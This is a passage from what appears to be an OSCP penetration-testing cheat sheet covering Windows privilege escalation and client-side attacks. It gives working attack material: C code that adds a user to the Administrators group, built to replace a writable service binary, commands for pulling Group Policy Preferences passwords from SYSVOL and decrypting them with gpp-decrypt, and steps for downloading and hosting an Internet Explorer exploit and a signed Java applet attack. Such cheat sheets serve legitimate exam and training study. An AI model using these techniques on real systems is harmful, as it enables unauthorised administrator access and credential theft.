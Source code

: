          scsiaccess.exe  
         NT AUTHORITY\SYSTEM:(I)(F)  
         BUILTIN\Administrators:(I)(F)  
         BUILTIN\Users:(I)(RX)  
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)  
         Everyone:(I)(F)

*   Compile a custom add user command in windows using C

        root@kali:~# cat useradd.c  
        #include <stdlib.h> /* system, NULL, EXIT_FAILURE */  
        int main ()  
        {  
        int i;  
        i=system ("net localgroup administrators low /add");  
        return 0;  
        }

    `i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c`

*   Group Policy Preferences (GPP)  
    A common useful misconfiguration found in modern domain environments is unprotected Windows GPP settings files

    *   map the Domain controller SYSVOL share

        `net use z:\\dc01\SYSVOL`

    *   Find the GPP file: Groups.xml

        `dir /s Groups.xml`

    *   Review the contents for passwords

        `type Groups.xml`

    *   Decrypt using GPP Decrypt

        `gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB`

*   Find and display the proof.txt or flag.txt - get the loot!

    `#meterpreter > run post/windows/gather/win_privs` `cd\ & dir /b /s proof.txt` `type c:\pathto\proof.txt`

# [](https://x89k.tk/infosec/2018/11/03/oscpsurvivalguide.html#client-web-and-password-attacks)Client, Web and Password Attacks

*   ## [](https://x89k.tk/infosec/2018/11/03/oscpsurvivalguide.html#client-attacks)Client Attacks

    *   MS12-037- Internet Explorer 8 Fixed Col Span ID  
        wget -O exploit.html [http://www.exploit-db.com/download/24017](http://web.archive.org/web/20171113221652/http://www.exploit-db.com/download/24017)  
        service apache2 start

    *   JAVA Signed Jar client side attack  
        echo '' > /var/www/html/java.html  
        User must hit run on the popup that occurs.
